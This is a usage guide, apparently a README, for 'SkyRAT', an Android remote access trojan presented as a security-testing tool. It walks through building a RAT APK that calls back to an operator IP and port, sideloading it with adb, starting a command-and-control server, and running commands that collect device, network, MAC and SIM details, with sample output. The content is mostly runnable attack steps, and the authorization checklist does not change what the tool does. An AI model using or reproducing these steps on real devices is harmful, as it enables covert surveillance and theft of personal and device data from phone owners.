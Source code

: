 # SkyRAT Basic Usage Examples

Practical examples for getting started with SkyRAT Android security testing.

## 🎯 Prerequisites

Before starting these examples:
- ✅ SkyRAT installed and configured
- ✅ Android test device available
- ✅ Proper authorization for testing
- ✅ Isolated test environment

## 📚 Example Scenarios

### **Example 1: Basic Device Assessment**

This example demonstrates a basic security assessment of an Android device.

#### **Step 1: Build and Deploy APK**
```bash
# Build APK for local network testing
python3 skyrat.py --build -i 192.168.1.100 -p 8000 -o basic-test.apk

# Install on test device
adb install build/basic-test.apk
```

#### **Step 2: Start C&C Server**
```bash
# Start server and wait for connection
python3 skyrat.py --shell -i 192.168.1.100 -p 8000
```

#### **Step 3: Basic Device Profiling**
```bash
# Get device information
SkyRAT:/> deviceInfo

# Check network configuration
SkyRAT:/> getIP
SkyRAT:/> getMACAddress

# Get SIM and cellular info
SkyRAT:/> getSimDetails

# System information
SkyRAT:/> sysinfo
```

#### **Expected Output:**
```
=== DEVICE INFORMATION ===
Hardware:
  Model: SM-G998B
  Manufacturer: samsung
  Brand: samsung
  Device: o1s

System:
  Android: 13
  API Level: 33
  Fingerprint: samsung/o1sxxx/o1s:13/...

```